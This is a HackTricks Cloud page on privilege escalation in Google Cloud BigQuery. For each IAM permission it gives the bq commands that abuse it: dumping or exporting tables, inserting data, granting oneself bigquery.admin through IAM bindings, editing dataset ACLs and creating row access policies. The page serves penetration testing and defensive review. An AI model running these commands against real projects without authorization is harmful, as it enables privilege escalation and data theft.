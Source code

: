 # GCP - BigQuery Privesc

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## BigQuery

For more information about BigQuery check:

{% content-ref url="../gcp-services/gcp-bigquery-enum.md" %}
[gcp-bigquery-enum.md](../gcp-services/gcp-bigquery-enum.md)
{% endcontent-ref %}

### Read Table

Reading the information stored inside the a BigQuery table it might be possible to find s**ensitive information**. To access the info the permission needed is **`bigquery.tables.get`** , **`bigquery.jobs.create`** and **`bigquery.tables.getData`**:

```bash
bq head <dataset>.<table>
bq query --nouse_legacy_sql 'SELECT * FROM `<proj>.<dataset>.<table-name>` LIMIT 1000'
```

### Export data

This is another way to access the data. **Export it to a cloud storage bucket** and the **download the files** with the information.\
To perform this action the following permissions are needed: **`bigquery.tables.export`**, **`bigquery.jobs.create`** and **`storage.objects.create`**.

```bash
bq extract <dataset>.<table> "gs://<bucket>/table*.csv" 
```

### Insert data

It might be possible to **introduce certain trusted data** in a Bigquery table to abuse a **vulnerability in some other place.** This can be easily done with the permissions **`bigquery.tables.get`** , **`bigquery.tables.updateData`** and **`bigquery.jobs.create`**:

{% code overflow="wrap" %}
```bash
# Via query
bq query --nouse_legacy_sql 'INSERT INTO `<proj>.<dataset>.<table-name>` (rank, refresh_date, dma_name, dma_id, term, week, score) VALUES (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2019-10-13", 62), (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2020-05-24", 67)'

# Via insert param
bq insert dataset.table /tmp/mydata.json
```
{% endcode %}

### `bigquery.datasets.setIamPolicy`

An attacker could abuse this privilege to **give himself further permissions** over a BigQuery dataset:

```bash
# For this you also need bigquery.tables.getIamPolicy
bq add-iam-policy-binding \
    --member='user:<email>' \
    --role='roles/bigquery.admin' \
    <proj>:<dataset>

# use the set-iam-policy if you don't have bigquery.tables.getIamPolicy
```

### `bigquery.datasets.update`, (`bigquery.datasets.get`)

Just this permission allows to **update your access over a BigQuery dataset by modifying the ACLs** that indicate who can access it:

```bash
# Download current permissions, reqires bigquery.datasets.get
bq show --format=prettyjson <proj>:<dataset> > acl.json
## Give permissions to the desired user
bq update --source acl.json <proj>:<dataset>
```

### `bigquery.tables.setIamPolicy`

An attacker could abuse this privilege to **give himself further permissions** over a BigQuery table:

```bash
# For this you also need bigquery.tables.setIamPolicy
bq add-iam-policy-binding \
    --member='user:<email>' \
    --role='roles/bigquery.admin' \
    <proj>:<dataset>.<table>

# use the set-iam-policy if you don't have bigquery.tables.setIamPolicy
```

### `bigquery.rowAccessPolicies.update`, `bigquery.rowAccessPolicies.setIamPolicy`, `bigquery.tables.getData`, `bigquery.jobs.create`

According to the docs, with the mention permissions it's possible to **update a row policy.**\
However, **using the cli `bq`** you need some more: **`bigquery.rowAccessPolicies.create`**, **`bigquery.tables.get`**.

{% code overflow="wrap" %}
```bash
bq query --nouse_legacy_sql 'CREATE OR REPLACE ROW ACCESS POLICY <filter_id> ON `<proj>.<dataset-name>.<table-name>` GRANT TO ("user:user@email.xyz") FILTER USING (term = "Cfba");' # A example filter was used
```
{% endcode %}

It's possible to find the filter ID in the output of the row policies enumeration. Example:

```bash
 bq ls --row_access_policies <proj>:<dataset>.<table>
 
      Id        Filter Predicate            Grantees              Creation Time    Last Modified Time
 ------------- ------------------ ----------------------------- ----------------- --------------------
  apac_filter   term = "Cfba"      user:asd@hacktricks.xyz   21 Jan 23:32:09   21 Jan 23:32:09
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
